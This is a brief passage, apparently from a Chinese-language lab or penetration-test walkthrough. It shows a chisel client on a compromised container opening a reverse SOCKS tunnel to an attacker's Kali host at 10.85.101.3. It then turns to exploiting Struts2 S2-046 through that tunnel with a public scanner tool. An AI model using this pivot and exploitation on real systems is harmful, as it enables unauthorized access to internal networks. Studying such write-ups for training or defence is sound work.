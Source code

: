 ```shell
da2bf9a19d9a:/tmp# ./chisel_1.9.1_linux_amd64 client 10.85.101.3:1331 R:0.0.0.0:10005:socks
<amd64 client 10.85.101.3:1331 R:0.0.0.0:10005:socks
2024/07/25 06:57:34 client: Connecting to ws://10.85.101.3:1331
2024/07/25 06:57:35 client: Connected (Latency 32.878827ms)
```

成功建立代理

```shell title="Kali"
2024/07/25 14:57:35 server: session#20: tun: proxy#R:10005=>socks: Listening
```

## Struts2 S2-046

通过 socks 访问服务

![img](img/image_20240701-150146.png)

使用 [abc123info/Struts2VulsScanTools](https://github.com/abc123info/Struts2VulsScanTools) 直接利用
